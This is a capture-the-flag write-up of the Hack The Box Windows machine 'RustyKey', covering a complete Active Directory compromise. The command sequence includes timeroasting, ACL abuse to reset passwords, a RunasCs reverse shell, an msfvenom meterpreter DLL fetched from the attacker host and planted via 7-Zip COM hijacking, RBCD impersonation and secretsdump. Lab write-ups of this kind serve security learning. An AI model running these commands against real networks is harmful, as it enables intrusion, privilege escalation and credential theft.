

import ProfileHeader from '@site/src/components/ProfileHeader';
import pic from './rustykeypfp.png';

<ProfileHeader image={pic} />

# RustyKey

Machine IP: 10.10.11.75

Difficulty: Hard, OS: Windows, Creator: EmSec

This is an assumed breach box so we have intial creds:

**User:**  rr.parker

**Pass:**  8#t5HE8L!W3A 

## User

### Nmap Scan

We scan the target with nmap and get the following ports:

```bash
PORT     STATE SERVICE       VERSION                                                                   
53/tcp   open  domain        Simple DNS Plus                                                           
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-11-18 02:08:49Z)            
135/tcp  open  msrpc         Microsoft Windows RPC                                                     
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn                                             
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)                                                                                  
445/tcp  open  microsoft-ds?                                                                           
464/tcp  open  kpasswd5?                                                                               
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0                                       
636/tcp  open  tcpwrapped                                                                              
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)                                                                                  
3269/tcp open  tcpwrapped                                                                              
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                   
|_http-title: Not Found                                                                                
|_http-server-header: Microsoft-HTTPAPI/2.0                                                            
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows                                     
                                                                                                       
Host script results:                                                                                   
| smb2-security-mode:                                                                                  
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-11-18T02:08:56
|_  start_date: N/A
|_clock-skew: 8h00m00s

```

From this output we can get the clock skew and the domain **rustykey.htb**, although it doesn’t show us the FQDN. We add **rustykey.htb** to our `/etc/hosts` file, and if we run NetExec against SMB, we see that NTLM Authentication is disabled:

```bash
┌──(kali㉿kali)-[~/…/HTB/Machines/Hard/Rustykey]
└─$ nxc smb 10.10.11.75 
SMB         10.10.11.75     445    10.10.11.75      [*]  x64 (name:10.10.11.75) (domain:10.10.11.75) (signing:True) (SMBv1:False) **(NTLM:False)**

```

We can also get the domain controller through ldap:

```bash
┌──(kali㉿kali)-[~/…/HTB/Machines/Hard/Rustykey]
└─$ nxc ldap 10.10.11.75                                                           
LDAP        10.10.11.75     389    DC               [*] None (name:DC) (domain:rustykey.htb)
```

NetExec’s coerce check also finds a few potential vulnerabilities which may or may not prove useful:



### Bloodhound

By looking at bloodhound, we see **IT-Computer3** has **AddSelf** to the **Helpdesk** group. 


Additionally, we can see that the password for this computer was last set 1 day after it was created. Computer objects automatically change their passwords every 30 days, so this one changing after one day means it is a user-set password, which makes it is weak.


We can run a **timeroast** attack against computers which gives us the hash of their passwords. Since IT-Computer3’s password is user-set, it is therefore weak and could be potentially cracked.

### Timeroasting

We run NetExec’s timeroast module:

```bash
nxc smb dc.rustykey.htb -M timeroast  
```

This gives us a bunch of hashes:


We copy all of these into a timeroasthashes.txt file, which we then format properly using

```bash
cat timeroasthashes.txt | awk '{print $5}' > t  # 5 since the hashes are the 5th field
```

Now we can use hashcat to attempt to crack these

```bash
hashcat timeroasthashes.txt ~/Desktop/rockyou.txt --user 
```

And sure enough, we get a hit on RID 1125, which is IT-Computer3 whose pass is **`Rusty88!`**

### Foothold

We now have new credentials. As we saw on bloodhound, IT-Computer3 can addSelf to Helpdesk.


Helpdesk has a few outbound object controls. **GG.ANDERSON** is disabled, but the rest of the users are enabled. 

Remote Management Users group: **ee.reed, bb.morgan, gg.anderson (disabled)**

Let’s first get into bb.morgan.

First, let’s add ourselves to helpdesk:

```bash
bloodyAD -d rustykey.htb --host dc.rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k \
add groupMember 'Helpdesk' 'IT-COMPUTER3$'
```

Next, let’s change bb.morgan’s pass:

```bash
bloodyAD -d rustykey.htb --host dc.rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k \
set password 'bb.morgan' 'NewP@ss123' 
```

However, when trying to get a TGT we get this error:


If we take another look at bb.morgan’s groups, we see he is in Protected Objects (and so is ee.reed).

However, IT-Computer3$ could write to Protected Objects:

```bash
┌──(kali㉿kali)-[~/…/HTB/Machines/Hard/Rustykey]
└─$ bloodyAD -d rustykey.htb --host dc.rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k \
get writable 

distinguishedName: CN=TPM Devices,DC=rustykey,DC=htb
permission: CREATE_CHILD

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=rustykey,DC=htb
permission: WRITE

distinguishedName: CN=IT-Computer3,OU=Computers,OU=IT,DC=rustykey,DC=htb
permission: CREATE_CHILD; WRITE

**distinguishedName: CN=Protected Objects,CN=Users,DC=rustykey,DC=htb
permission: WRITE**

distinguishedName: CN=dd.ali,OU=Users,OU=Finance,DC=rustykey,DC=htb
permission: WRITE

```

We see that bb.morgan is in the Protected Objects group because of IT, so we can remove IT from Protected Objects


We use bloodyAD:

```bash
┌──(kali㉿kali)-[~/…/HTB/Machines/Hard/Rustykey]
└─$ bloodyAD -d rustykey.htb --host dc.rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k \
remove groupMember 'Protected Objects' 'IT'
[-] IT removed from Protected Objects

```

and this time getting the TGT works:

```bash
┌──(kali㉿kali)-[~/…/HTB/Machines/Hard/Rustykey]
└─$ impacket-getTGT RUSTYKEY.HTB/'bb.morgan':'NewP@ss123'                                                                     
Impacket v0.13.0.dev0+20250919.210843.8426ec99 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in bb.morgan.ccache

```

From there we just set the KRB5CCNAME env variable to the ccache we got and connect through evil-winrm-py to get the user flag which is in the user’s desktop.

`evil-winrm-py -i dc.rustykey.htb -k` 

If we had worked with reed first, we would’ve gotten into a roadblock after changing the password and removing her from Protected Objects, because we wouldn’t be able to log in anywhere. Still not sure why..

## PrivEsc

Among the user flag, there is another file called `internal.pdf` . We download it and open it in our host. The pdf is an email from bb.morgan to the support team, and mentions something that looks important:

<aside>
💡

Some newer systems handle context menu actions differently, so registry-level adjustments are expected during this phase.

</aside>

Through the pdf, we learn that there have been some changes on zipping stuff (as it mentions compressing/extracting). Context menus, are COM objects, and they work with CLSIDs (Class Identifiers). COMs (Component Object Modules) are the thing that enables applications to share functionality. For example, you can open a zip file through explorer, and it treats it like a virtual folder. That works because there is a COM object that points to that type of file and uses that DLL so when another program tries to open it it uses that DLL in order to process it.

What does that mean for this case? Well for starters, we can query registries that have  CLSIDs in them:

```powershell
evil-winrm-py PS C:\Users\bb.morgan\Desktop> reg query HKCR\CLSID /s /f "zip"

HKEY_CLASSES_ROOT\CLSID\{23170F69-40C1-278A-1000-000100020000}
    (Default)    REG_SZ    7-Zip Shell Extension

**HKEY_CLASSES_ROOT\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32
    (Default)    REG_SZ    C:\Program Files\7-Zip\7-zip.dll**

HKEY_CLASSES_ROOT\CLSID\{888DCA60-FC0A-11CF-8F0F-00C04FD7D062}
    (Default)    REG_SZ    Compressed (zipped) Folder SendTo Target
    FriendlyTypeName    REG_EXPAND_SZ    @%SystemRoot%\system32\zipfldr.dll,-10226

HKEY_CLASSES_ROOT\CLSID\{888DCA60-FC0A-11CF-8F0F-00C04FD7D062}\DefaultIcon
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{888DCA60-FC0A-11CF-8F0F-00C04FD7D062}\InProcServer32
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{b8cdcb65-b1bf-4b42-9428-1dfdb7ee92af}
    (Default)    REG_SZ    Compressed (zipped) Folder Context Menu

HKEY_CLASSES_ROOT\CLSID\{b8cdcb65-b1bf-4b42-9428-1dfdb7ee92af}\InProcServer32
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{BD472F60-27FA-11cf-B8B4-444553540000}
    (Default)    REG_SZ    Compressed (zipped) Folder Right Drag Handler

HKEY_CLASSES_ROOT\CLSID\{BD472F60-27FA-11cf-B8B4-444553540000}\InProcServer32
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{E88DCCE0-B7B3-11d1-A9F0-00AA0060FA31}\DefaultIcon
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{E88DCCE0-B7B3-11d1-A9F0-00AA0060FA31}\InProcServer32
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{ed9d80b9-d157-457b-9192-0e7280313bf0}
    (Default)    REG_SZ    Compressed (zipped) Folder DropHandler

HKEY_CLASSES_ROOT\CLSID\{ed9d80b9-d157-457b-9192-0e7280313bf0}\InProcServer32
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

End of search: 14 match(es) found.

```

The second result is the CLSID of 7zip. What that means is, the CLSID 

**`{23170F69-40C1-278A-1000-000100020000}`**  is gonna use the 7zip DLL. We can check its permissions:

```powershell
Get-ACL "Registry::HKCR\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" | fl
```

(the fl part is format list, otherwise we can’t really read the output properly)

The output:

```powershell
Path   : Microsoft.PowerShell.Core\Registry::HKCR\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32
Owner  : BUILTIN\Administrators
Group  : RUSTYKEY\Domain Users
Access : APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadKey
         BUILTIN\Administrators Allow  FullControl
         CREATOR OWNER Allow  FullControl
         **RUSTYKEY\Support Allow  FullControl**
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Users Allow  ReadKey
Audit  : 
Sddl   : O:BAG:DUD:AI(A;CIID;KR;;;AC)(A;ID;KA;;;BA)(A;CIIOID;KA;;;CO)(A;CIID;KA;;;S-1-5-21-3316070415-896458127-41393220
         52-1132)(A;CIID;KA;;;SY)(A;CIIOID;KA;;;BA)(A;CIID;KR;;;BU)
```

Shows that the **Support** group has full control. Previously, we saw that **ee.reed** was in the support group, so it’s time to get access to her account. 

### Getting into Support

We do the same attack, but this time we want access to **ee.reed**. First, let’s add ourselves back to the Helpdesk group:

```bash
bloodyAD -d rustykey.htb --host dc.rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k \
add groupMember 'Helpdesk' 'IT-COMPUTER3$'
```

then, let’s change the password of ee.reed:

```bash
bloodyAD -d rustykey.htb --host dc.rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k \
set password 'ee.reed' 'NewP@ss123'
```

ee.reed is part of the Protected Objects group because of the Support group, so we’ll have to remove that too


```bash
bloodyAD -d rustykey.htb --host dc.rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k \
remove groupMember 'Protected Objects' 'Support'
```

And now all that remains is to get the TGT:

```bash
impacket-getTGT RUSTYKEY.HTB/'ee.reed':'NewP@ss123' 
```

However, when trying to authenticate using NetExec, evil-winrm or anything like that, we keep getting error messages. That means there is something blocking remote access, and ee.reed can only do local logins. This means that we’re going to have to use RunasCs.exe 

We get back into our winrm connection as bb.morgan, upload RunasCs.exe and run a reverse shell. We start a listener with `penelope -p 1234` and then we run the shell:

```powershell
.\RunasCs.exe ee.reed 'NewP@ss123' powershell -r 10.10.14.132:1234
```

Now we have a shell as ee.reed

### Shell as ee.reed

As we saw previously, ee.reed is part of the Support group who can modify the registry with the CLSID of 7zip. First, let’s get a DLL that will give us a reverse shell. We can craft one with `msfvenom` :

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.132 LPORT=9001 -f dll \
-o payload.dll
```

We get our listener ready:

```bash
msfconsole -q
msf> use multi/handler
msf> set payload windows/x64/meterpreter/reverse_tcp
msf> set lhost 10.10.14.132
msf> set lport 9001
msf> set ExitOnSession false
msf> exploit -j
```

Then, we need to get our payload onto the target. For that, let’s start a python server to host the file

```bash
python3 -m http.server 8000 
```

On the target, head to C:\ProgramData and get the file:

```bash
wget http://10.10.14.132:8000/payload.dll -o payl.dll
```

Now, we need to point the 7zip CLSID to our malicious DLL:

```powershell
Set-ItemProperty "Registry::HKCR\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32"-name "(default)" -value "C:\ProgramData\payl.dll"
```

Now if we run Get-Item

```powershell
Get-Item "Registry::HKCR\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32"
```

We see it is pointing to our dll:

```powershell
Name                           Property                                                                                
----                           --------                                                                                
InprocServer32                 (default)      : C:\ProgramData\payl.dll                                                
                               ThreadingModel : Apartment 
```

Now, when a user tries to open up a 7zip file, it is going to access a dll and send us a reverse shell. 

Sure enough, after some time, we get a connection on our listener. After running `whoami` , we see that the shell we have is as `mm.turner` .

### Shell as mm.turner

If we look at bloodhound’s outbound object controls for mm.turner, we see that he is part of the Delegation Manager groups, who can act on the DC


This lets us do RBCD (Resource Based Constraint Delegation) so we need to get a user we want to delegate. If we look at the Administrator account, we see it has

Trusted For Constrained Delegation: False

so we can’t use that


The same goes for the Backupadmin user.

So let’s use our IT-COMPUTER3 account to impersonate other accounts (aka generate silver tickets).

```powershell
Set-ADComputer DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
```

and we can confirm this worked through the command:

```powershell
Get-ADComputer DC -properties PrincipalsAllowedToDelegateToAccount

DistinguishedName                    : CN=DC,OU=Domain Controllers,DC=rustykey,DC=htb
DNSHostName                          : dc.rustykey.htb
Enabled                              : True
Name                                 : DC
ObjectClass                          : computer
ObjectGUID                           : dee94947-219e-4b13-9d41-543a4085431c
PrincipalsAllowedToDelegateToAccount : {CN=**IT-Computer3**,OU=Computers,OU=IT,DC=rustykey,DC=htb}
SamAccountName                       : DC$
SID                                  : S-1-5-21-3316070415-896458127-4139322052-1000
UserPrincipalName                    : 

```

Now we just need the silver ticket:

```bash
getST.py -spn cifs/dc.rustykey.htb -impersonate 'backupadmin' \
rustykey.htb/'IT-COMPUTER3$':'Rusty88!'
```

Note: We don’t need to create a computer account in this case because we already know the password of IT-Computer3. The reason we create a new computer account usually in this attack is so that we can specify the password, which we don’t need to do here.

Now we have the ccache of backupadmin (if we tried to do it with admin it would fail) so we can secretsdump:

```bash
secretsdump.py rustykey.htb/'backupadmin'@dc.rustykey.htb -k -no-pass
```

And in that command we see the following snippet:

```bash
[--SNIP--]
[*] $MACHINE.ACC 
RUSTYKEY\DC$:plain_password_hex:0c7fbe96b20b5afd1da58a1d71a2dbd6ac75b42a93de3c18e4b7d448316ca40c74268fb0d2281f46aef4eba9cd553bbef21896b316407ae45ef212b185b299536547a7bd796da250124a6bb3064ae48ad3a3a74bc5f4d8fbfb77503eea0025b3194af0e290b16c0b52ca4fecbf9cfae6a60b24a4433c16b9b6786a9d212c7aaefefa417fe33cc7f4dcbe354af5ce95f407220bada9b4d841a3aa7c6231de9a9ca46a0621040dc384043e19800093303e1485021289d8719dd426d164e90ee3db3914e3d378cc9e80560f20dcb64b488aa468c1b71c2bac3addb4a4d55231d667ca4ba2ad36640985d9b18128f7755b25
RUSTYKEY\DC$:aad3b435b51404eeaad3b435b51404ee:b266231227e43be890e63468ab168790:::
[*] DefaultPassword 
**RUSTYKEY\Administrator:Rustyrc4key#!**
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x3c06efaf194382750e12c00cd141d275522d8397
dpapi_userkey:0xb833c05f4c4824a112f04f2761df11fefc578f5c
[--SNIP--]
```

Which shows the password of Administrator being `Rustyrc4key#!`

We can confirm that with NetExec:

```bash
nxc smb dc.rustykey.htb -u 'Administrator' -p 'Rustyrc4key#!' -k

SMB         dc.rustykey.htb 445    dc               [*]  x64 (name:dc) (domain:rustykey.htb) (signing:True) (SMBv1:False) (NTLM:False)                                                                        
SMB         dc.rustykey.htb 445    dc               [+] rustykey.htb\Administrator:Rustyrc4key#! (Pwn3d!) 
```

That means that all that’s left is to get the TGT

```bash
impacket-getTGT RUSTYKEY.HTB/'Administrator':'Rustyrc4key#!'
```

and finally log in with evil-winrm-py and read the root flag in Administrator’s desktop!

Overall an amazing machine, learned a lot!

[Owned RustyKey from Hack The Box!](https://labs.hackthebox.com/achievement/machine/2397718/669)
